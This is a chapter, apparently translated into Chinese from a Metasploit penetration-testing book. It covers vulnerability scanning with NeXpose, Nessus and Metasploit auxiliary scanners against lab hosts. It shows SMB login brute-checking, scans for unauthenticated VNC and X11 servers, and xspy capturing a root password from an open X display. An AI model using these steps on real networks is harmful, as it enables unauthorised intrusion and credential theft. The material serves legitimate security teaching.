





## 第四章. 漏洞扫描

*漏洞扫描器*是一种自动化的程序，旨在寻找计算机、计算机系统、网络和应用程序中的弱点。程序通过向系统发送数据并通过网络分析收到的响应来探测系统，试图使用其漏洞数据库作为参考，列出目标上存在的任何漏洞。

不同的操作系统在接收到特定的网络探测时可能会做出不同的响应，这是因为使用了不同的网络实现。这些独特的响应作为指纹，漏洞扫描器使用它来确定操作系统版本甚至其补丁级别。漏洞扫描器还可以使用一组给定的用户凭据来登录远程系统，并枚举软件和服务以确定它们是否已打补丁。根据它获得的结果，扫描器会呈现一份报告，概述系统上检测到的任何漏洞。这份报告对网络管理员和渗透测试人员都很有用。

漏洞扫描器通常会在网络上产生大量流量，因此在渗透测试中，如果目标之一是保持不被发现，通常不会使用漏洞扫描器。然而，如果你正在进行渗透测试，且隐蔽性不是问题，漏洞扫描器可以让你免于手动探测系统以确定其补丁级别和漏洞。

无论你是使用自动扫描器还是手动操作，扫描是渗透测试过程中最重要的步骤之一；如果做得彻底，将为你的客户提供最佳价值。在本章中，我们将讨论多种漏洞扫描器以及它们如何在 Metasploit 中集成。我们将突出 Metasploit 框架中的一些辅助模块，这些模块可以定位远程系统中的特定漏洞。

## 基本漏洞扫描

让我们看看扫描在最基本的层面上是如何工作的。在下面的列表中，我们使用*netcat*从目标 192.168.1.203 获取一个标志。*标志抓取*是指连接到远程网络服务并读取返回的服务标识（标志）的行为。许多网络服务，如 Web、文件传输和邮件服务器，在连接到它们时立即返回它们的标志，或者是对特定命令的响应。在这里，我们连接到 TCP 端口 80 上的 Web 服务器，并发出一个`GET HTTP`请求，这允许我们查看远程服务器对我们请求的响应返回的头信息。

```
root@bt:/opt/framework3/msf3# `nc 192.168.1.203 80`
  `GET HTTP 1/1`
  HTTP/1.1 400 Bad Request
 Server: *`Microsoft-IIS/5.1`*
```

在返回的信息告诉我们，运行在 80 端口的系统是基于 Microsoft IIS 5.1 的 Web 服务器。有了这些信息，我们可以使用漏洞扫描器，如图 4-1 所示，来确定这个版本的 IIS 是否有与之相关的漏洞，以及这个特定的服务器是否已经打上了补丁。

当然，在实践中，事情并不那么简单。漏洞扫描通常包含许多 *误报*（报告了不存在漏洞的漏洞）和 *漏报*（未记录存在的漏洞），这是由于系统和应用程序配置的微妙差异造成的。此外，漏洞扫描器的制作者有报告正面的动机：漏洞扫描器找到的“命中”越多，对潜在买家来说看起来就越好。漏洞扫描器的质量取决于其漏洞数据库，它们很容易被误导性的横幅或不一致的配置所欺骗。

让我们来看看一些更有用的漏洞扫描器，包括 NeXpose、Nessus 和一些专用扫描器。

 图 4-1. 针对目标 Web 服务器的漏洞扫描结果

## 使用 NeXpose 扫描

NeXpose 是 Rapid7 的漏洞扫描器，它扫描网络以识别其上运行的设备，并执行检查以识别操作系统和应用程序中的安全弱点。然后分析扫描数据并将其处理以包含在各种报告中。

Rapid7 提供了 NeXpose 的多个版本，但我们将使用社区版，因为它免费。如果您计划商业使用 NeXpose，请参阅 Rapid7 网站 ([`www.rapid7.com/vulnerability-scanner.jsp`](http://www.rapid7.com/vulnerability-scanner.jsp)) 了解各种版本及其功能、定价信息。

我们的目标是扫描配置在 附录 A 中的 Windows XP SP2 默认安装。我们首先将对目标执行基本的公开扫描，并将漏洞扫描结果导入 Metasploit。我们将通过向您展示如何直接从 *msfconsole* 运行 NeXpose 漏洞扫描而不是使用基于网页的 GUI 来结束本节，从而消除导入扫描报告的需要。

### 配置

安装 NeXpose Community 后，打开网页浏览器并导航到 *https://<youripaddress>:3780*。接受 NeXpose 自签名证书，并使用您在设置期间创建的凭据登录。接下来，您应该会看到一个类似于 图 4-2 中所示的界面。（您可以在 Rapid7 网站上找到 NeXpose 的完整安装说明。）

在 NeXpose 主页上，您会在界面上方注意到几个选项卡：

+   资产选项卡  显示了扫描后您的网络中计算机和其他设备的详细信息。

+   报告选项卡  列出了已生成的漏洞扫描报告。

+   漏洞选项卡  提供了您在扫描过程中发现的任何漏洞的详细信息。

+   管理选项卡  允许您配置各种选项。

图 4-2. NeXpose 的初始主页

页面主体中的按钮允许您执行常见任务，例如创建新站点或设置新的漏洞扫描。

#### 新建站点向导

在使用 NeXpose 运行漏洞扫描之前，您需要配置一个*站点*——一个逻辑设备集合，例如特定的子网、服务器集合，甚至单个工作站。然后，NeXpose 将对这些站点进行扫描，并为特定站点定义不同的扫描类型。

1.  要创建一个站点，请点击 NeXpose 主页上的**新建站点**按钮，输入站点的名称和简要描述，然后点击**下一步**。

1.  在设备步骤中，如图 4-3 所示，您在定义目标方面有相当大的粒度。您可以添加单个 IP 地址、地址范围、主机名等。您还可以声明要排除扫描的设备，例如打印机。（打印机通常不喜欢被扫描。我们见过简单漏洞扫描导致超过一百万页纯黑色打印作业被放入打印队列的实例！）完成添加和排除设备后，点击**下一步**。

1.  在扫描设置步骤中，您可以从几个不同的扫描模板中进行选择，例如发现扫描和渗透测试；选择您想要使用的扫描引擎；或设置自动扫描计划。为了进行这次初始演练，请保持默认选择并点击**下一步**继续。

1.  为您要扫描的站点添加凭据，如果您有的话。凭据可以通过对目标上安装的软件和系统策略进行深入枚举，帮助创建更准确和完整的结果。

1.  在凭据标签页上，点击**新建登录**按钮，为要扫描的 IP 地址输入用户名和密码，然后点击**测试登录**以验证凭据然后保存它们。图 4-3. 将设备添加到新的 NeXpose 站点

1.  最后，点击**保存**以完成新建站点向导并返回到主页标签，该标签应列出您新添加的站点，如图 4-4 所示。图 4-4. 主页标签显示新配置的站点。

#### 新建手动扫描向导

配置了新的站点后，您现在可以配置您的第一个扫描：

1.  点击图 4-4 中显示的**新建手动扫描**按钮。您应该看到图 4-5 中显示的“开始新扫描”对话框，该对话框提示您选择要扫描或排除的资产。在这个例子中，我们正在扫描我们的默认 Windows XP 系统。

1.  仔细检查您的目标 IP 地址，以确保您不是意外地扫描了错误的设备或网络，然后点击**立即开始**按钮开始扫描。图 4-5. NeXpose 扫描配置对话框

1.  NeXpose 应随着扫描的进行动态刷新页面。等待扫描进度和发现资产的状态都显示为**完成**，如图图 4-6 所示。在扫描进度部分，您可以看到我们的单个扫描设备检测到 268 个漏洞，在发现资产部分，您将获得有关目标（如设备名称和操作系统）的更多信息。现在点击**报告**标签页。

图 4-6. 完成的 NeXpose 扫描和报告

#### 新建报告向导

如果这是您第一次运行 NeXpose 并且您只完成了一次扫描，报告标签页应显示您尚未生成任何报告。

1.  如图 4-7 所示，点击**新建报告**以启动新建报告向导。图 4-7. NeXpose 报告标签页

1.  输入一个友好的名称，然后在报告格式字段中，选择**NeXpose 简单 XML 导出**，如图图 4-8 所示，以便您能够将扫描结果导入 Metasploit。您可以从不同的报告模板中选择，并在必要时配置时区。准备好继续时，点击**下一步**。图 4-8. 选择报告的名称和格式

1.  在随后的窗口中，通过点击**选择站点**来添加您想要包含在报告中的设备，如图图 4-9 所示。然后点击**保存**。图 4-9. 选择要包含在报告中的站点

1.  在选择设备对话框中，选择要包含在报告中的目标，然后点击**保存**。

1.  在报告配置向导中，点击**保存**以接受报告的其余默认设置。现在报告标签页应列出新创建的报告，如图图 4-10 所示。（请确保保存报告文件，以便您可以在框架中使用它。）图 4-10. 报告标签页列出您的报告。

### 将您的报告导入 Metasploit 框架

使用 NeXpose 完成全面漏洞扫描后，您需要将结果导入 Metasploit。但在导入之前，您必须通过执行`db_connect`命令从*msfconsole*创建一个新的数据库。创建该数据库后，您将使用`db_import`命令导入 NeXpose XML。Metasploit 将自动检测该文件来自 NeXpose 并导入扫描的主机。您可以通过运行`db_hosts`命令来验证导入是否成功。（以下列出这些步骤。）正如您在中看到的，Metasploit 知道您的扫描发现了 268 个漏洞。

```
msf > `db_connect postgres:toor@127.0.0.1/msf3`
msf > `db_import /tmp/host_195.xml`
[*] Importing 'NeXpose Simple XML' data
[*] Importing host 192.168.1.195
[*] Successfully imported /tmp/host_195.xml

msf > `db_hosts -c address,svcs,vulns`

Hosts
=====

address        Svcs  Vulns  Workspace
-------        ----  -----  ---------
192.168.1.195  8     268  default
```

要显示导入到 Metasploit 中的漏洞的完整详细信息，包括通用漏洞和暴露（CVE）编号和其他参考，请运行以下命令：

```
msf > `db_vulns`
```

如您所见，运行带有完整凭证的公开漏洞扫描可以提供大量信息——在这个例子中发现了 268 个漏洞。但当然，这是一个非常嘈杂的扫描，可能会吸引很多注意。这类漏洞扫描最好用于渗透测试，在这种情况下不需要隐蔽。

### 在 MSFconsole 中运行 NeXpose

使用 Web GUI 运行 NeXpose 非常适合微调漏洞扫描和生成报告，但如果您更喜欢保持在*msfconsole*中，您仍然可以使用 Metasploit 中包含的 NeXpose 插件运行完整的漏洞扫描。

为了演示有凭证和无凭证扫描之间结果的不同，我们将从 Metasploit 运行一个扫描，而不指定目标系统的用户名和密码。在开始之前，使用`db_destroy`删除任何现有的数据库，使用`db_connect`在 Metasploit 中创建一个新的数据库，然后按照以下所示使用`load nexpose`加载 NeXpose 插件：

```
msf > `db_destroy postgres:toor@127.0.0.1/msf3`
[*] Warning: You will need to enter the password at the prompts below
Password:

msf > `db_connect postgres:toor@127.0.0.1/msf3`

msf > `load nexpose`

[*] NeXpose integration has been activated
[*] Successfully loaded plugin: nexpose
```

在加载了 NeXpose 插件后，通过输入**`help`**命令查看专门为漏洞扫描器加载的命令。你应该会在列表顶部看到一系列针对运行 NeXpose 的新命令。

```
msf > `help`
```

在从*msfconsole*运行您的第一次扫描之前，您需要连接到您的 NeXpose 安装。输入**`nexpose_connect -h`**以显示连接所需的用法；添加您的用户名、密码和主机地址；并通过在连接字符串末尾添加`ok`来接受 SSL 证书警告：

```
msf > `nexpose_connect -h`
[*] Usage:
[*]        nexpose_connect username:password@host[:port] <ssl-confirm>
[*]         -OR-
[*]        nexpose_connect username password host port <ssl-confirm>
msf > `nexpose_connect dookie:s3cr3t@192.168.1.206 ok`
[*] Connecting to NeXpose instance at 192.168.1.206:3780 with username dookie...
```

现在输入**`nexpose_scan`**后跟目标 IP 地址以启动扫描，如下所示。在这个例子中，我们正在扫描单个 IP 地址，但您也可以向扫描器传递一组主机（192.168.1.1-254）或无类别域间路由（CIDR）表示法中的子网（192.168.1.0/24）。

```
msf > `nexpose_scan 192.168.1.195`
[*] Scanning 1 addresses with template pentest-audit in sets of 32
[*] Completed the scan of 1 addresses
msf >
```

NeXpose 扫描完成后，您之前创建的数据库应包含漏洞扫描的结果。要查看结果，输入**`db_hosts`**，如下所示。（在这个例子中，输出已被地址列的过滤所裁剪。）

```
msf > `db_hosts -c address`

Hosts
=====

address        Svcs  Vulns  Workspace
-------        ----  -----  ---------
192.168.1.195  8    7     default

msf >
```

如您所见，NeXpose 发现了七个漏洞。运行**`db_vulns`**以显示找到的漏洞：

```
msf > `db_vulns`
```

尽管这次扫描发现的漏洞数量显著少于之前通过 GUI 使用凭据使用 NeXpose 发现的 268 个漏洞，但您应该有足够的漏洞来为系统利用打下良好的基础。

## 使用 Nessus 进行扫描

Tenable Security 的 Nessus 漏洞扫描器([`www.tenable.com/`](http://www.tenable.com/))是最广泛使用的漏洞扫描器之一。Metasploit 的 Nessus 插件允许您通过控制台启动扫描并从 Nessus 扫描中提取信息，但在接下来的示例中，我们将独立导入 Nessus 扫描结果。使用 Nessus 4.4.1 和免费的家庭订阅，我们将对本章中使用的相同目标进行扫描，使用已知的凭据。在渗透测试的早期阶段，您可以使用更多工具来微调未来的攻击，这将更有利。

### Nessus 配置

在您下载并安装 Nessus 之后，打开您的网页浏览器并导航到 *https://<您的 IP 地址>:8834*，接受证书警告，并使用您在安装过程中创建的凭据登录 Nessus。您应该会看到如图图 4-11 所示的 Nessus 主窗口。

图 4-11. Nessus 主窗口

登录后，您将看到报告部分，其中应列出任何先前的漏洞扫描。在界面的顶部，您应该看到扫描选项卡，您可以在其中创建和查看扫描任务；策略选项卡，您可以在其中配置 Nessus 以包含您在扫描中想要使用的各种插件；以及用户选项卡，您可以在其中向 Nessus 服务器添加用户账户。

### 创建 Nessus 扫描策略

在开始扫描之前，您首先需要创建一个 Nessus 扫描策略。在“策略”选项卡上，点击绿色的**添加**按钮以打开策略配置窗口，如图图 4-12 所示。

图 4-12. Nessus 策略配置窗口

您将看到许多可用选项，所有这些都可以在 Nessus 的文档中找到。

1.  为扫描输入一个名称，如图图 4-13 所示。在我们的示例中，我们将使用名称*The_Works*，以便 Nessus 运行所有检查。然后点击**下一步**。

1.  与之前进行的 NeXpose 扫描一样，我们将配置此扫描使用 Windows 登录凭据以获取目标系统上存在的漏洞的更完整视图。输入您的目标系统的登录凭据并点击**下一步**。图 4-13. Nessus 常规设置

1.  在插件页面上，您可以从 Windows、Linux、BSD 等多种操作系统的大量 Nessus 插件中进行选择。例如，如果在扫描过程中您知道您将仅扫描基于 Windows 的系统，您可以在第一次运行时取消选择许多这些插件；现在，点击**启用所有**（如图图 4-14 右下角所示）然后点击**下一步**。图 4-14. 选择 Nessus 扫描插件

1.  设置新策略的最后一步是偏好设置页面。在这里，您可以指示 Nessus 不要扫描如网络打印机等脆弱设备，配置它将结果存储在外部数据库中，提供登录凭证等。完成您的选择后，点击**提交**以保存新策略。您新添加的策略应显示在策略下，如图图 4-15 所示。

图 4-15. Nessus 中新添加的策略

### 运行 Nessus 扫描

在您创建了一个扫描策略之后，您就可以配置一个扫描了。首先选择**扫描**选项卡，然后点击**添加**按钮以打开扫描配置窗口。大多数 Nessus 配置都是在其扫描策略中设置的，因此在设置扫描时，输入扫描名称，选择策略，并输入扫描目标，如图图 4-16 所示。

图 4-16. 配置 Nessus 扫描

在我们的示例中，我们只扫描了一个主机，但您也可以输入 CIDR 表示法的 IP 地址范围，甚至上传包含您想要扫描的目标地址的文件。当您对扫描配置满意时，点击**启动扫描**。

### Nessus 报告

扫描完成后，它将不再显示在扫描下，您应该在报告选项卡下找到一个新条目，列出扫描的名称、状态和最后更新时间。选择报告并点击**浏览**以打开扫描的摘要页面，显示发现的漏洞的严重级别，如图图 4-17 所示。

图 4-17. 我们的 Nessus 扫描报告摘要

* * *

### 注意

请记住，由于此扫描使用 Windows 凭证运行，Nessus 将发现比匿名扫描更多的漏洞。

* * *

### 将结果导入 Metasploit 框架

现在让我们将我们的结果导入框架。

1.  在报告选项卡上点击**下载报告**按钮，将结果保存到您的硬盘上。Nessus 报告的默认文件格式*.nessus*可以被 Metasploit 解析，因此当提示选择默认格式时，请点击**提交**。

1.  加载*msfconsole*，使用`db_connect`创建一个新的数据库，然后通过输入**`db_import`**后跟报告文件名来导入 Nessus 结果文件。

    ```
    msf > `db_connect postgres:toor@127.0.0.1/msf3`
    msf > `db_import /tmp/nessus_report_Host_195.nessus`
    [*] Importing 'Nessus XML (v2)' data
    [*] Importing host 192.168.1.195
    ```

1.  为了验证扫描的主机和漏洞数据是否已正确导入，请输入**`db_hosts`**，如下所示。这将输出一个简短的列表，包括目标 IP 地址、检测到的服务数量以及 Nessus 发现的漏洞数量。

    ```
    msf > `db_hosts -c address,svcs,vulns`

    Hosts
    =====
    address        svcs  vulns
    -------        ----  -----
    192.168.1.195  18    345
    ```

1.  要查看导入到 Metasploit 中的漏洞数据完整列表，请输入**`db_vulns`**，无需任何开关，如下所示：

    ```
    msf > `db_vulns`
    [*] Time: Wed Mar 09 03:40:10 UTC 2011 Vuln: host=192.168.1.195
        name=NSS-10916 refs=OSVDB-755
    [*] Time: Wed Mar 09 03:40:10 UTC 2011 Vuln: host=192.168.1.195
        name=NSS-10915 refs=OSVDB-754
    [*] Time: Wed Mar 09 03:40:11 UTC 2011 Vuln: host=192.168.1.195
        name=NSS-10913 refs=OSVDB-752
    [*] Time: Wed Mar 09 03:40:12 UTC 2011 Vuln: host=192.168.1.195
        name=NSS-10114 refs=CVE-1999-0524,OSVDB-94,CWE-200
    [*] Time: Wed Mar 09 03:40:13 UTC 2011 Vuln: host=192.168.1.195
        name=NSS-11197 refs=CVE-2003-0001,BID-6535
    ```

在你的渗透测试结束时，拥有这些参考资料可以在为客户编写报告时提供很大帮助。

### 在 Metasploit 内部使用 Nessus 进行扫描

在你不想离开命令行舒适区的时候，你可以在 Metasploit 中使用 Zate 的 Nessus Bridge 插件([`blog.zate.org/nessus-plugin-dev/`](http://blog.zate.org/nessus-plugin-dev/))。Nessus Bridge 允许你完全通过 Metasploit 框架控制 Nessus，运行扫描，解释结果，并根据 Nessus 识别的漏洞发起攻击。

1.  与前面的示例一样，首先使用**`db_destroy`**命令销毁现有的数据库，然后使用**`db_connect`**创建一个新的数据库。

1.  通过运行**`load nessus`**来加载 Nessus 插件，如下所示：

    ```
    msf > `db_destroy postgres:toor@127.0.0.1/msf3`
    [*] Warning: You will need to enter the password at the prompts below
    Password:

    msf > `db_connect postgres:toor@127.0.0.1/msf3`
    msf > `load nessus`
    [*] Nessus Bridge for Metasploit 1.1
    [+] Type nessus_help for a command listing
    [+] Exploit Index - (/root/.msf3/nessus_index) -  is valid.
    [*] Successfully loaded plugin: Nessus
    ```

1.  运行`nessus_help`命令将显示插件支持的所有命令。Bridge 插件定期进行开发和更新，因此定期检查帮助输出以查看是否添加了新功能是个好主意。

1.  在使用 Bridge 开始扫描之前，你首先需要使用**`nessus_connect`**进行身份验证，如下所示：

    ```
    msf > `nessus_connect dookie:s3cr3t@192.168.1.101:8834 ok`
    [*] Connecting to https://192.168.1.101:8834/ as dookie
    [*] Authenticated
    ```

1.  与 Nessus 的 GUI 版本一样，你需要通过其策略 ID 号启动一个使用定义策略的扫描。要列出服务器上可用的扫描策略，请使用**`nessus_policy_list`**：

    ```
    msf > `nessus_policy_list`
    [+] Nessus Policy List

    ID   Name                         Comments
    --   ----                         --------
    -4   Internal Network Scan
    -3   Web App Tests
    -2   Prepare for PCI DSS audits
    -1   External Network Scan
    2    The_Works
    ```

1.  注意你想要用于扫描的策略 ID，然后使用**`nessus_scan_new`**后跟策略编号、扫描名称和你的目标 IP 地址来启动一个新的扫描，如下所示：

    ```
    msf > `nessus_scan_new`
    [*] Usage:

    [*]        nessus_scan_new <policy id> <scan name> <targets>
    [*]        use nessus_policy_list to list all available policies
    msf > `nessus_scan_new 2 bridge_scan 192.168.1.195`
    [*] Creating scan from policy number 2, called "bridge_scan"
     and scanning 192.168.1.195
    [*] Scan started.  uid is d2f1fc02-3b50-4e4e-ab8f-38b0813dd96abaeab61f312aa81e
    ```

1.  当你的扫描正在进行时，你可以通过运行**`nessus_scan_status`**命令来查看其状态。当此命令的输出响应为“没有正在运行的扫描”，如下所示时，你知道你的扫描已经完成。

    ```
    msf > `nessus_scan_status`
    [*] No Scans Running.
    ```

1.  扫描完成后，你可以使用`nessus_report_list`命令列出可用的扫描报告。识别你想要导入的报告的 ID，然后输入**`nessus_report_get`**以自动下载报告并将其导入到 Metasploit 数据库中。

    ```
    msf > `nessus_report_list`
    [+] Nessus Report List

    ID                                                    Name         Status     Date
    --                                                    ----         ------     ----
    074dc984-05f1-57b1-f0c9-2bb80ada82fd3758887a05631c1d
      Host_195     completed  19:43 Mar 08 2011
    d2f1fc02-3b50-4e4e-ab8f-38b0813dd96abaeab61f312aa81e
      bridge_scan  completed  09:37 Mar 09 2011

    [*] You can:
    [*] Get a list of hosts from the report: nessus_report_hosts <report id>
    msf > `nessus_report_get d2f1fc02-3b50-4e4e-ab8f-38b0813dd96abaeab61f312aa81e`
    [*] importing d2f1fc02-3b50-4e4e-ab8f-38b0813dd96abaeab61f312aa81e
    [*] 192.168.1.195 Microsoft Windows XP Professional (English)  Done!
    [+] Done
    ```

1.  最后，就像本章中演示的其他导入功能一样，你可以使用`db_hosts`来验证扫描数据是否已成功导入：

```
msf > `db_hosts -c address,svcs,vulns`

Hosts
=====

address        svcs  vulns
-------        ----  -----
192.168.1.195  18    345
```

现在您已经看到了来自两种不同产品的扫描结果变化，您应该对使用多个工具来满足您的扫描需求的优势有了更好的认识。解读这些自动化工具的结果并将其转化为可操作数据，这仍然取决于渗透测试人员。

## 专业漏洞扫描器

虽然市场上有很多商业漏洞扫描器，但您并不局限于它们。当您想要在网络上对特定漏洞进行扫描时，Metasploit 的许多辅助模块可以帮助您完成此类任务。

以下 Metasploit 模块只是 Framework 中包含的许多有用辅助扫描模块的几个示例。利用您的实验室来探测和探索尽可能多的它们。

### 验证 SMB 登录

要检查用户名和密码组合的有效性，请使用 SMB 登录检查扫描器连接到一系列主机。正如您所预期的，这种扫描很响亮且引人注目，并且每次登录尝试都会出现在它遇到的每个 Windows 机器的事件日志中。

在使用 `use` 选择 *smb_login* 模块后，您可以通过运行 `show_options` 来查看在必需列下列出的设置。Metasploit 允许您指定用户名和密码组合、用户名和密码列表，或两者的组合。在下一个示例中，`RHOSTS` 被设置为一系列 IP 地址，并为 Metasploit 配置了用户名和密码，以便尝试所有地址。

```
msf > `use auxiliary/scanner/smb/smb_login`
  msf auxiliary(smb_login) > `show options`

  Module options:

     Name           Current Setting  Required  Description
     ----           ---------------  --------  -----------
     PASS_FILE                       no        File containing passwords, one per line
     RHOSTS                          yes       The target
 address range or CIDR identifier
     RPORT          445              yes       Set the SMB service port
     SMBDomain      WORKGROUP        no        SMB Domain
     SMBPass        password         no        SMB Password
     SMBUser        Administrator    no        SMB Username
     THREADS        50               yes       The number of concurrent threads
     USERPASS_FILE                   no        File containing
 users and passwords separated
                                                 by space, one pair per line
     USER_FILE                       no        File containing usernames, one per line

  msf auxiliary(smb_login) > `set RHOSTS 192.168.1.150-155`
  RHOSTS => 192.168.1.170-192.168.1.175
  msf auxiliary(smb_login) > `set SMBUser Administrator`
  SMBUser => Administrator
  msf auxiliary(smb_login) > `set SMBPass s3cr3t`
  SMBPass => s3cr3t
  msf auxiliary(smb_login) > `run`
  [*] Starting host 192.168.1.154
  [*] Starting host 192.168.1.150
  [*] Starting host 192.168.1.152
  [*] Starting host 192.168.1.151
  [*] Starting host 192.168.1.153
  [*] Starting host 192.168.1.155
 [+] 192.168.1.155 - SUCCESSFUL LOGIN (Windows 5.1) 'Administrator' : 's3cr3t'
  [*] Scanned 4 of 6 hosts (066% complete)
  [*] Scanned 5 of 6 hosts (083% complete)
  [*] Scanned 6 of 6 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf auxiliary(smb_login) >
```

您可以在  中看到一个成功的登录，用户名为 *Administrator*，密码为 *s3cr3t*。由于工作站都是从同一个镜像克隆而来，并在许多企业环境中通过企业部署，管理员密码可能所有工作站上都是相同的，这使您能够访问网络上的每个工作站。

### 扫描开放 VNC 认证

虚拟网络计算（VNC）以类似于微软远程桌面（Remote Desktop）的方式提供对远程系统的图形访问。VNC 安装在许多公司中很常见，因为它们提供了基于 GUI 的服务器和工作站桌面的视图。VNC 通常被安装来满足临时需求，然后完全被遗忘且未打补丁，从而创建了一个重大的潜在漏洞。Metasploit 内置的 VNC 认证无密码扫描器在一系列 IP 地址范围内搜索未配置密码（支持“无”认证，即空密码）的 VNC 服务器。通常，这种扫描不会发现有价值的东西，但一个好的渗透测试人员会在寻找访问目标系统的方法时，不放过任何细节。

* * *

### 注意

近期 VNC 服务器不允许使用空密码。为了在您的实验室中设置一个用于测试的环境，请使用较旧的 VNC 服务器，例如 RealVNC 4.1.1。

* * *

VNC 扫描器，就像大多数 Metasploit 辅助模块一样，易于配置和运行。`vnc_none_auth` 所需的唯一配置是提供要扫描的 IP 或 IP 范围。只需选择模块，定义你的 `RHOSTS` 和 `THREADS`（如果需要），然后运行它，如下所示：

```
msf > `use auxiliary/scanner/vnc/vnc_none_auth`
  msf auxiliary(vnc_none_auth) > `show options`

  Module options:

     Name     Current Setting  Required  Description
     ----     ---------------  --------  -----------
     RHOSTS                    yes       The target address range or CIDR identifier
     RPORT    5900             yes       The target port
     THREADS  1                yes       The number of concurrent threads

  msf auxiliary(vnc_none_auth) > `set RHOSTS 192.168.1.155`
  RHOSTS => 192.168.1.155
  msf auxiliary(vnc_none_auth) > `run`

  [*] 192.168.1.155:5900, VNC server protocol version : RFB 003.008
  [*] 192.168.1.155:5900, VNC server security types supported : None
 [*] 192.168.1.155:5900, VNC server security types includes None, free access!
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf auxiliary(vnc_none_auth) >
```

如果你运气好，Metasploit 找到了一个没有认证的 VNC 服务器 ，你可以使用 Back|Track 的 *vncviewer* 连接到目标机器，无需密码，如图 图 4-18 所示。

 图 4-18. 使用 *vncviewer* 没有认证连接到 VNC

如果你认为 VNC 扫描可能浪费时间，而且你永远找不到启用了开放 VNC 服务器的系统，那么再想想。在一次大规模的渗透测试中，涉及数千个系统，其中一位作者注意到其中一个系统有一个开放的 VNC 服务器。

当作者在系统中记录他的发现时，他注意到系统上有活动。这是在一个不太可能有授权用户在上的系统上，在夜间发生的。虽然这并不总是被认为是一种最佳实践，但作者假装成另一个未授权的入侵者，并通过记事本与入侵者进行对话。入侵者不太聪明，告诉作者他在扫描大量系统以寻找开放的 VNC 服务器。以下是对话的一段节选：

> *作者:* 你在美国吗？还是在国外？我知道一些人在丹麦。*攻击者:* 实际上我来自挪威，嘿嘿，我在丹麦有亲戚。*作者:* 你在什么论坛上活跃？我以前喜欢一些，但现在它们都消失了。*攻击者:* 我主要在一些编程论坛上活跃，但其他方面不多。你从事黑客活动很长时间了吗？你多大了？我 22 岁。*作者:* 我大概一年左右只是为了好玩而从事这个。还在上学。16 岁。只是做点事情。*攻击者:* 我还没有去过。我也主要是为了好玩，只是想看看我能做什么，测试我的技能。顺便说一句，我自己写了“VNC 查找器”，我找到了很多服务器，但这是唯一一个我能真正玩得起来的。*作者:* 哇。你用它写的什么语言？我能下载吗？你有昵称吗？*攻击者:* 它是用一种叫做 PureBasic 的语言编写的，但还不适合发布，它只是供我自己使用。但也许我可以分享，我可以上传代码到某个地方，让你编译。如果你能在某个破解网站上找到 PureBasic 编译器的话 :P*作者:* 那太酷了。你可以把它放在那个来自 irc 的 pastebin 网站上。那让你可以匿名发布。我以前没有做过 PureBasic，只做过 python 和 perl。*攻击者:* 让我看看，我会去找那个 pastebin 网站，上传它，给我几分钟，我会在那儿的。

攻击者随后给了作者一个链接，指向一个包含他使用的自定义 VNC 扫描器完整源代码的 pastebin 页面。

### 扫描开放 X11 服务器

Metasploit 内置的 *open_x11* 扫描器与 *vnc_auth* 扫描器类似，因为它会扫描一系列主机以寻找允许用户无需身份验证即可连接的 X11 服务器。尽管 X11 服务器今天并不广泛使用，但许多过时的机器仍在运行旧版、未修补和被遗忘的操作系统。正如您在前两个示例中看到的，遗留系统通常是网络中最易受攻击的系统。

要运行 *open_x11* 扫描器，只需像配置大多数其他辅助模块一样设置 `RHOSTS` 和可选的 `THREADS` 值。下面是一个会话示例。注意在 IP 地址 192.168.1.23，扫描器发现了一个开放的 X 服务器。这是一个严重的漏洞，因为它允许攻击者未经身份验证地访问系统：X 系统处理 GUI 包括鼠标和键盘。

```
msf > `use auxiliary/scanner/x11/open_x11`
msf auxiliary(open_x11) > `show options`

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    6000             yes       The target port
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(open_x11) > `set RHOSTS 192.168.1.0/24`
RHOSTS => 192.168.1.0/24
msf auxiliary(open_x11) > `set THREADS 50`
THREADS => 50
msf auxiliary(open_x11) > `run`
[*] Trying 192.168.1.1
[*] Trying 192.168.1.0
[*] Trying 192.168.1.2...
[*] Trying 192.168.1.29
[*] Trying 192.168.1.30
[*] Open X Server @ 192.168.1.23 (The XFree86 Project, Inc)
[*] Trying 192.168.1.31
[*] Trying 192.168.1.32

`. . . SNIP . . .`

[*] Trying 192.168.1.253
[*] Trying 192.168.1.254
[*] Trying 192.168.1.255
[*] Auxiliary module execution completed
```

为了了解攻击者如何利用这种漏洞，可以使用 Back|Track 的 *xspy* 工具开始按键记录，如下所示：

```
root@bt:/# `cd /pentest/sniffers/xspy/`
root@bt:/pentest/sniffers/xspy# `./xspy -display 192.168.1.23:0 -delay 100`

ssh root@192.168.1.11(+BackSpace)37
sup3rs3cr3tp4s5w0rd
ifconfig
exit
```

